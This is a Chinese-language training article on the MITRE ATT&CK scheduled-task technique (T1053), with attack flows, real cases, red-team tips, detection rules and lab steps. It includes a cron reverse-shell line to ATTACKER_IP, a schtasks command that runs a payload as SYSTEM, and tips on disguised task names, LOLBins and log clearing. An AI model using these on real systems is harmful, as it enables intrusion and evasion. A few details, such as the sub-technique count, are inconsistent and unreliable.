

# 计划任务/作业 (T1053)

## 一句话通俗理解

就像给系统的"闹钟"设了一个恶意提醒——攻击者利用操作系统内置的任务调度功能，让恶意代码在指定时间以高权限自动执行。

## 难度等级

⭐ **初级** - 创建计划任务是系统管理员的日常操作，攻击者只需掌握基本命令即可利用。

## 技术描述

每个操作系统都有内置的任务调度功能，允许程序在特定时间或间隔自动执行。这是系统管理的基础功能——比如 Windows 的"任务计划程序"、Linux 的 cron、Kubernetes 的 CronJob。

**通俗解释：**
就像在公司里设置了一个"定时闹钟"，到了指定时间闹钟就会响。攻击者利用这个机制，把"闹钟响后做的事"换成自己的恶意命令。而且因为任务可以设置成以最高权限运行（就像让 CEO 的秘书去执行任务），攻击者不需要知道管理员密码就能让自己的代码以管理员身份运行。

**技术原理：**

1. **创建任务**：攻击者使用系统命令或 API 创建一个新的计划任务
2. **设置权限**：将任务配置为以高权限账户（Windows SYSTEM、Linux root）运行
3. **指定操作**：设置任务要执行的恶意命令或程序
4. **触发执行**：等待触发条件满足（定时、启动时、登录时等），恶意代码以高权限自动执行

**用途与影响：**
计划任务是攻击者最常用的提权手段之一。在 Windows 上，一条简单的 `schtasks` 命令就能创建一个以 SYSTEM 权限运行的任务。对于普通用户来说，这是系统自带功能，不会触发安全警报，而且系统重启后任务仍然存在，兼具持久化效果。

## 子技术列表

**该技术共有 7 个子技术：**

| 子技术ID | 中文名称 | 通俗解释 |
|----------|----------|----------|
| T1053.001 | At (Windows) | 使用 Windows 的 at 命令创建一次性定时任务（已弃用但可能仍可用） |
| T1053.002 | At (Linux) | 使用 Linux 的 at 命令创建一次性定时任务 |
| T1053.003 | Cron | 利用 Linux/macOS 的 cron 定时执行恶意命令 |
| T1053.005 | 计划任务 (Windows) | 使用 Windows 任务计划程序创建以 SYSTEM 权限运行的任务 |
| T1053.006 | Systemd 定时器 | 利用 Linux systemd 的定时器功能执行恶意代码 |
| T1053.007 | 容器编排作业 | 在 Kubernetes 中创建恶意 CronJob 以高权限运行容器 |

<details>
<summary><strong>展开查看各子技术详细说明</strong></summary>

### T1053.001 - At (Windows)

**通俗理解：** 使用 Windows 的 at 命令（已弃用但仍然可能可用）创建一个一次性计划任务。

**详细说明：** Windows 的 `at` 命令是旧版的任务调度工具，在 Windows 8+ 中已被弃用但部分系统仍然可用。`at` 命令默认以 SYSTEM 权限运行任务，因此只要普通用户有权限使用 `at`，就可以创建以 SYSTEM 权限执行的任务。

### T1053.002 - At (Linux)

**通俗理解：** 使用 Linux 的 at 命令创建一个在未来某个时间执行一次的定时任务。

**详细说明：** Linux 的 `at` 命令允许用户在指定时间执行一次性任务。`at` 守护进程（atd）以 root 权限运行，但用户的 at 任务通常以用户自身权限执行。`at` 提权的关键在于找到可以写入系统级 at 目录（如 `/etc/cron.allow`）的漏洞。

### T1053.003 - Cron

**通俗理解：** 在 Linux 的"定时任务列表"（crontab）里添加一条定期执行的恶意命令。

**详细说明：** Cron 是 Linux/macOS 中最常用的定时任务调度器。攻击者如果可以写入 `/etc/crontab` 或 `/etc/cron.d/` 目录，就可以创建以 root 权限定时执行的恶意任务。

### T1053.005 - 计划任务 (Windows)

**通俗理解：** 使用 Windows 任务计划程序创建一个"隐藏"的自动任务，配置为以 SYSTEM 权限运行。

**详细说明：** Windows 任务计划程序（Task Scheduler）是最常用的计划任务管理工具。通过 `schtasks.exe` 或 PowerShell 的 `New-ScheduledTask`，攻击者可以创建配置为以 SYSTEM 用户、最高权限运行的计划任务。

### T1053.006 - Systemd 定时器

**通俗理解：** 利用 Linux systemd 的定时器功能替代 cron，在指定时间运行恶意服务。

**详细说明：** Systemd 定时器（timer）是 modern Linux 发行版中替代 cron 的任务调度机制。定时器通过 `.timer` 单元文件配置，关联到对应的 `.service` 单元，在指定时间触发服务执行。

### T1053.007 - 容器编排作业

**通俗理解：** 在 Kubernetes 集群中创建一个定时运行的恶意容器。

**详细说明：** Kubernetes 的 CronJob 资源允许在集群中定期运行容器化任务。攻击者如果获得了 Kubernetes API 的访问权限，可以创建使用高权限服务账户的 CronJob，在集群中执行特权操作。

</details>

## 攻击流程



### Windows 计划任务提权流程

```
1. 获得普通用户权限的 shell
   ↓
2. 创建以 SYSTEM 权限运行的计划任务
   schtasks /create /tn "WindowsUpdate" /tr "C:\temp\payload.exe" /sc onstart /ru SYSTEM
   ↓
3. 手动触发任务或等待触发条件
   schtasks /run /tn "WindowsUpdate"
   ↓
4. 恶意负载以 SYSTEM 权限执行
   ↓
5. 获得最高系统权限
```

### Linux Cron 提权流程

```
1. 获得低权限 shell
   ↓
2. 检查当前用户的 cron 权限
   cat /etc/crontab; ls -la /etc/cron.d/
   ↓
3. 如果有写入权限，添加恶意 cron 条目
   echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" >> /etc/crontab
   ↓
4. 等待 cron 执行（最多1分钟）
   ↓
5. 获得 root 权限的反弹 shell
```

### Kubernetes CronJob 提权流程

```
1. 获取对 Kubernetes API 的访问权限
   ↓
2. 检查是否有创建 CronJob 的权限
   kubectl auth can-i create cronjobs
   ↓
3. 创建使用高权限服务账户的 CronJob
   kubectl apply -f malicious-cronjob.yaml
   ↓
4. CronJob 以特权容器身份运行
   ↓
5. 通过容器逃逸或直接访问获得节点权限
```

## 真实案例

### 案例1：Volt Typhoon 利用计划任务在关键基础设施中持久化

- **时间**: 2023-2024年
- **目标**: 美国关键基础设施（水利、能源、通信、交通）
- **攻击组织**: Volt Typhoon
- **手法**: 中国国家背景的攻击组织 Volt Typhoon 广泛使用 Windows 计划任务（T1053.005）作为持久化和权限维持手段。攻击者创建了伪装成合法系统更新的计划任务，配置为以 SYSTEM 权限运行编码的 PowerShell 命令。这些任务被设置在系统启动时或特定时间间隔执行，确保攻击者在目标网络中能够长期维持高权限访问。Volt Typhoon 使用"就地取材"策略，所有工具都是 Windows 内置的，使检测极其困难。
- **影响**: 在关键基础设施网络中潜伏数年，构成重大安全威胁
- **参考链接**: [CISA - Volt Typhoon Advisory (AA24-038A)](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)

### 案例2：BlackBasta 勒索软件利用计划任务部署加密器

- **时间**: 2024年
- **目标**: 全球医疗、制造和金融行业
- **攻击组织**: BlackBasta
- **手法**: BlackBasta 勒索软件组织在获得域管理员权限后，使用组策略和计划任务在域内所有计算机上部署加密器。攻击者通过 `schtasks /create` 命令创建了配置为以 SYSTEM 权限运行的计划任务，确保加密程序能够访问和加密所有系统文件，包括受 SYSTEM 账户保护的文件。CISA 在 2024 年发布的 advisory (AA24-109A) 中详细记录了这种技术。
- **影响**: 全球多个行业遭受勒索攻击，造成数亿美元损失
- **参考链接**: [CISA - BlackBasta Advisory (AA24-109A)](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-109a)

### 案例3：TeamTNT 利用 Kubernetes CronJob 挖矿

- **时间**: 2021-2024年
- **目标**: 暴露的 Kubernetes 集群
- **攻击组织**: TeamTNT
- **手法**: TeamTNT 在入侵暴露的 Kubernetes API 服务器后，创建恶意的 CronJob（T1053.007）来运行挖矿容器。攻击者配置的 CronJob 使用高权限服务账户（通常绑定到 cluster-admin 角色），使恶意容器能够访问集群范围内的资源。通过利用 Kubernetes 的 RBAC 配置不当问题，TeamTNT 从初始的有限 API 访问权限提升到对整个集群的管理控制。
- **影响**: 数千个 Kubernetes 集群被用于加密货币挖矿
- **参考链接**: [CrowdStrike - TeamTNT targeting Kubernetes](https://www.crowdstrike.com/blog/teamtnt-now-targeting-kubernetes-clusters/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **使用仿真任务名称**
   使用类似 "WindowsDefenderUpdate"、"MicrosoftEdgeUpdate"、"AdobeFlashUpdate" 等看起来合法的任务名称来规避基于名称的检测。

2. **优先使用 `schtasks /ru SYSTEM`**
   在 Windows 上，`schtasks /create /ru SYSTEM` 直接指定以 SYSTEM 账户运行任务，无需额外配置。

3. **结合 LOLBins 执行负载**
   使用 mshta.exe、certutil.exe、rundll32.exe 等合法 Windows 工具来执行恶意负载，避免直接运行可疑的可执行文件。

4. **检查现有任务的弱权限**
   在某些配置不当的系统中，普通用户可以修改由 SYSTEM 创建的现有计划任务的配置。通过修改现有任务的执行程序路径，可以以原任务的权限执行恶意代码。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| schtasks.exe | Windows 内置的计划任务管理工具 | Windows | 内置 |
| PowerShell (New-ScheduledTask) | PowerShell 的计划任务创建 cmdlet | Windows | 内置 |
| crontab | Linux 内置的定时任务管理工具 | Linux | 内置 |
| systemctl timer | Linux systemd 定时器管理 | Linux | 内置 |
| kubectl | Kubernetes 命令行工具，用于创建 CronJob | Linux/macOS/Windows | [官方](https://kubernetes.io/docs/tasks/tools/) |

### 注意事项

- 创建计划任务通常需要管理员权限（Windows）或 root 权限（Linux）
- 在 Windows 10+ 上，普通用户默认无法创建以 SYSTEM 运行的任务，需要先通过其他方式获得管理员权限
- Kubernetes CronJob 提权需要先获得对集群 API 的访问权限
- 计划任务在系统事件日志中会留下创建记录，需要考虑日志清理

## 蓝队视角

### 检测要点

1. **计划任务创建事件**
   - 日志来源：Windows 安全事件日志
   - 关注字段：事件 ID 4698（计划任务创建）、4699（计划任务删除）
   - 异常特征：以 SYSTEM 账户运行的任务，尤其是执行命令或脚本的任务

2. **cron 目录修改**
   - 日志来源：Linux auditd
   - 关注字段：`/etc/cron.d/`、`/etc/cron.hourly/`、`/etc/crontab` 的修改
   - 异常特征：非 root 用户对这些文件的修改

3. **Kubernetes CronJob 异常创建**
   - 日志来源：Kubernetes API 审计日志
   - 关注字段：`CronJob` 创建事件，特别是使用高权限服务账户的
   - 异常特征：来自非预期命名空间的管理员角色绑定

### 监控建议

- 配置 Windows 审计策略记录所有计划任务创建和修改事件
- 监控 `schtasks.exe` 和 `at.exe` 的异常使用，特别是从脚本解释器（PowerShell、cmd）调用的情况
- 定期审查所有计划任务的列表，使用 PowerShell 脚本自动比较基准线
- 在 Kubernetes 中启用审计日志，监控 CronJob 的创建和 RBAC 绑定事件

## 检测建议

### 网络层检测

**检测方法：** 监控从计划任务进程出站的异常网络连接。

**具体规则/命令示例：**
```
# 检测计划任务发起的反弹 shell 连接
alert tcp $HOME_NET any -> $EXTERNAL_NET 4444 (msg:"Scheduled task reverse shell"; flow:to_server,established; sid:1000002; rev:1;)
```

### 主机层检测

**检测方法：** 监控计划任务创建和异常进程执行。

**Windows 事件ID：**
- 事件 ID 4698：计划任务创建
- 事件 ID 4700：计划任务启用
- 事件 ID 1 (Sysmon)：异常进程创建

**Linux 日志：**
- 日志文件：`/var/log/cron`、`/var/log/syslog`
- 关键字段：`CRON`、`CMD`

**具体命令示例：**
```bash
# 检查所有 cron 任务
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.hourly/

# 查看 cron 日志
grep CRON /var/log/syslog | tail -20
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: Suspicious Scheduled Task Creation
status: experimental
description: Detects creation of scheduled tasks with SYSTEM privileges
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\schtasks.exe'
        CommandLine|contains:
            - '/create'
            - '/ru SYSTEM'
            - '/ru NT AUTHORITY\SYSTEM'
    condition: selection
level: high
tags:
    - attack.t1053
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 限制计划任务创建权限

**具体实施步骤：**
1. 限制普通用户创建计划任务的权限，仅授权管理员使用 Task Scheduler
2. 通过组策略配置安全模板，限制对计划任务服务的访问
3. 在 Linux 系统上使用 `/etc/cron.allow` 和 `/etc/cron.deny` 控制 cron 访问

**配置示例：**
```bash
# 允许特定用户使用 cron
echo "root" > /etc/cron.allow
echo "admin" >> /etc/cron.allow
# 拒绝其他所有用户
echo "ALL" > /etc/cron.deny
```

### 优先级2：重要措施

**措施名称：** 实施应用程序控制和监控

**具体实施步骤：**
1. 使用 Windows Defender Application Control (WDAC) 限制计划任务可执行的二进制文件
2. 配置 Sysmon 监控计划任务进程创建事件
3. 定期审计所有计划任务，使用 PowerShell 脚本自动化审计

### 优先级3：建议措施

**措施名称：** 增强审计和响应能力

**具体实施步骤：**
1. 配置 Windows 审计策略记录所有任务计划事件
2. 部署 EDR 解决方案检测异常的计划任务行为
3. 在 Kubernetes 中使用 RBAC 限制 CronJob 创建权限

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1018 | User Account Management | 适用 | 限制可创建计划任务的用户账户 |
| M1033 | Limit Software Installation | 部分适用 | 通过应用程序控制限制计划任务执行的程序 |
| M1026 | Privileged Account Management | 适用 | 管理具有创建计划任务权限的特权账户 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|----------|------|------|------|
| Hack The Box | 虚拟靶场 | 初级-中级 | https://www.hackthebox.com |
| TryHackMe | 虚拟靶场 | 初级 | https://tryhackme.com |

### 实验1：Windows 计划任务提权（初级）

**实验目标：** 使用 `schtasks` 命令创建以 SYSTEM 权限运行的计划任务。

**实验步骤：**
1. 查看当前用户的权限：`whoami /priv`
2. 创建一个以 SYSTEM 权限运行的计划任务：`schtasks /create /tn "TestTask" /tr "cmd.exe /c whoami > C:\temp\task_whoami.txt" /sc once /st 00:00 /ru SYSTEM`
3. 手动触发任务：`schtasks /run /tn "TestTask"`
4. 检查结果：`type C:\temp\task_whoami.txt`

**预期结果：** 输出 `nt authority\system`，证明任务以 SYSTEM 权限执行。

**学习要点：** 掌握 Windows 计划任务的基本操作和权限配置。

### 实验2：Linux Cron 提权（初级）

**实验目标：** 学习 Linux cron 的基本操作和提权原理。

**实验步骤：**
1. 查看系统 cron 任务：`ls -la /etc/cron.d/`
2. 添加 cron 条目（需要 root）：`echo "* * * * * root echo test > /tmp/cron_test.txt" | sudo tee -a /etc/crontab`
3. 等待 60 秒：`sleep 60`
4. 检查结果：`cat /tmp/cron_test.txt`

**预期结果：** 1 分钟后，`/tmp/cron_test.txt` 被创建。

**学习要点：** 理解 Linux cron 的执行机制和权限模型。

### 实验3：检测计划任务创建（中级）

**实验目标：** 学习如何通过事件日志检测计划任务的创建。

**实验步骤：**
1. 启用 Windows 计划任务审计：`auditpol /set /subcategory:"Other Object Access Events" /success:enable`
2. 创建测试任务
3. 查看事件日志：`Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4698} | Select-Object -First 5`

**预期结果：** 事件日志显示计划任务的创建详情，包括任务名称、创建者和执行账户。

**学习要点：** 掌握 Windows 事件日志在安全检测中的应用。

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 计划任务 | Scheduled Task | 操作系统的"定时闹钟"功能，让程序在指定时间自动运行 |
| SYSTEM | SYSTEM Account | Windows 中最高权限的本地账户，相当于系统的"总管理员" |
| cron | - | Linux/Unix 系统中的定时任务调度器，通过 crontab 文件配置 |
| systemd timer | - | Linux systemd 提供的定时器功能，是 cron 的现代替代方案，更灵活可靠 |
| CronJob | - | Kubernetes 中的定时作业资源，用于在集群中定期运行容器化任务 |
| 基于角色的访问控制 | Role-Based Access Control (RBAC) | Kubernetes 中的权限管理机制，决定谁能做什么操作 |
| schtasks.exe | - | Windows 内置的命令行计划任务管理工具 |
| 就地取材二进制文件 | Living Off the Land Binaries (LOLBins) | 攻击者利用系统自带的合法工具（如 certutil、mshta）进行攻击，不引入外部程序 |

## 参考资料

### 官方文档

- [MITRE ATT&CK T1053 - Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/)
- [MITRE ATT&CK T1053.005 - Scheduled Task (Windows)](https://attack.mitre.org/techniques/T1053/005/)
- [MITRE ATT&CK T1053.003 - Cron](https://attack.mitre.org/techniques/T1053/003/)
- [MITRE ATT&CK T1053.007 - Container Orchestration Job](https://attack.mitre.org/techniques/T1053/007/)

### 安全报告

- [CISA - Volt Typhoon Advisory (AA24-038A)](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)
- [CISA - BlackBasta Advisory (AA24-109A)](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-109a)
- [CrowdStrike - TeamTNT Cloud Threat Analysis](https://www.crowdstrike.com/blog/teamtnt-now-targeting-kubernetes-clusters/)

### 工具与资源

- [Atomic Red Team - T1053 Tests](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1053)

### 学习资料

- [Microsoft - Task Scheduler Documentation](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page)
- [Linux Cron How-To](https://www.man7.org/linux/man-pages/man5/crontab.5.html)
